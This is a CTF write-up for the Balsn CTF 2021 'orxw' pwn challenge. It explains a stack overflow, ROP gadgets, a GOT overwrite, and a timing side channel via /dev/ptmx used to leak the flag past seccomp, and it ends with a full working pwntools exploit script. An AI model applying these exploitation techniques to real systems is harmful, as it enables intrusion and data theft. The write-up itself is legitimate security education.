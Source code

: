 **Orxw**

was a pwn challenge from Balsn CTF 2021 edition.

It was a, "not so hard, not so easy" challenge, but interesting..

let's have a look to the reverse:

![](https://github.com/nobodyisnobody/write-ups/raw/main/Balsn.CTF.2021/pwn/orxw/pics/reverse.png)

pretty simple as you can see, the program reads up to 0x400 bytes to a 16 bytes buffer (obviously a lot too much...)

then it forks. The parent process waits for the child to exits, then setup a seccomp.. The child closes all file descriptors, then setup a seccomp also..

then, they both return to the rop that we can put on stack...

as the parent waits for the child to exit, the ROP we send will be executed by the child first, then it will be executed by the parent too.

the child seccomp in place looks like this:

![](https://github.com/nobodyisnobody/write-ups/raw/main/Balsn.CTF.2021/pwn/orxw/pics/seccomp.png)

basically only read, open, exit, exit_group, and openat syscalls are authorized , so no way to send, or write something... just open and read...

and for the parent, the seccomp only allows write , exit ,and exit_group.. so the parent can write, but not open, or read.. pretty useless also..

Opening and reading the flag (from the child) is not a difficult task.

We have the almost always present gadgets on x64 binaries produced by GCC,

the add & csu gadgets:

```
gadget_add = 0x000000000040125c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
gadget_csu = 0x000000000040156a # pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
gadget_csu2 = 0x401550 # mov rdx,r14  /  mov rsi,r13 / mov edi,r12d  / call qword[r15+rbx*8] + 7 pop
```

with that 3 gadgets, we can write whatever values where we want in memory,  or modify a got entry to change a function to another for example..

if we cannot exfiltrate data via classic channels (stdout, socket, etc...), we can exfiltrate data via another channel, time..

yes a bit like Doctor Who ;)

if we can read the flag in memory, we need a way to test all characters possible at a given letter position, if the character is good, we can go in a infinite loop,

if it's not the correct character, we exit (or crash, no importance...)

the way I found, was to open '/dev/ptmx' device,  we have the necessary rights to do it, and to read from it..

it will block, and indicate that the correct character is found...

the trick I used was to read the flag's character to be tested at the next byte after '/dev/ptmx' string on .bss,  and to add a choosen value to make it equal to zero,

to zero terminate the string in fact..

if the value is correct we can deduce the character of the flag..

if the value is incorrect, the '/dev/ptmx' string will not be zero terminated, the opening of the device will failed, and the next read also..so the program will exit or crash immediatly..

if the string is well zero terminated, it will block indefintely.. and we know that the character guess was correct...

well.. if you don't understand my explanation...:)  read the code...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import time

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./orxw')
rop = ROP(exe)

host, port = "orxw.balsnctf.com", "19091"


gadget_add = 0x000000000040125c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
gadget_csu = 0x000000000040156a # pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
gadget_csu2 = 0x401550 # mov rdx,r14  /  mov rsi,r13 / mov edi,r12d  / call qword[r15+rbx*8] + 7 pop

def add_gadget(address, val):
  global gadget_add
  global gadget_csu
  return p64(gadget_csu)+p64(val & 0xffffffff)+p64(address+0x3d)+p64(0)*4+p64(gadget_add)

def write_string(address, data):
  l = (len(data)+3) & ~3
  m = data.ljust(l,'\x00')
  n = ''
  for i in range(l/4):
    n += add_gadget(address+(i*4), u32(m[(i*4):(i*4)+4])) 
  return n


pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = 0x0000000000401571 # pop rsi ; pop r15 ; ret

bss = 0x404900

flag = 'BALSN{'
pos=len(flag)

while (pos<64):
	char = 0x20
	while (char<0x7e):
		p = remote(host,port)
		offset = 0x100-char

		print('testing char: '+chr(char))
		devname = '/dev/ptmx'

		payload = 'A'*16+p64(0xdeadbeef)
		# change close to open (by adding 0xfffff4e0 to close got entry)
		payload += add_gadget(exe.got['close'], 0xfffff4e0)
		# write 'flag' string in bss 
		payload += add_gadget(0x404800, u32(b'flag'))
		# open the flag file (fd will be 0 as there are no fd opened)
		payload += p64(pop_rdi)+p64(0x404800)+p64(pop_rsi)+p64(0)*2+p64(exe.sym['close'])
		# read the chars before pos (will be overwritten)
		payload += p64(gadget_csu)+p64(0)+p64(1)+p64(0)+p64(bss+(len(devname)))+p64(pos)+p64(exe.got['read'])+p64(gadget_csu2)+p64(0)*7
		# read the char at pos
		payload += p64(gadget_csu)+p64(0)+p64(1)+p64(0)+p64(bss+(len(devname)))+p64(1)+p64(exe.got['read'])+p64(gadget_csu2)+p64(0)*7
		# try to guess char at pos , by adding offset to him to make it zero
		payload += add_gadget(bss+len(devname), offset)
		# write '/dev/ptmx' string in bss
		payload += write_string(0x404900, devname)
		# open the device, (will be correct if char zero terminates the string..)
		payload += p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0)*2+p64(exe.sym['close'])
		# try to read from device (will block if device name is correct)
		payload += p64(gadget_csu)+p64(0)+p64(1)+p64(1)+p64(0x404700)+p64(64)+p64(exe.got['read'])+p64(gadget_csu2)+p64(0)*7
		# then exits
		payload += p64(exe.sym['_exit'])

		try:
		  p.sendlineafter('orxw?\n', payload)
		  start = time.time()		# measure time to return
		  print(p.recv(timeout=3))	# timeout 3 seconds maxi, if read block remotely (and char guess is correct so)
		  end = time.time()
		except:
		  end = time.time()

		p.close()
		if (end-start)>2:			# if it takes more than 2 seconds (around 3) , then the guess was correct
			print('char found: '+chr(char))
			flag += chr(char)
			print('flag = '+flag)
			break
		char += 1
	pos+=1

  
```

*nobodyisnobody still pwning things*

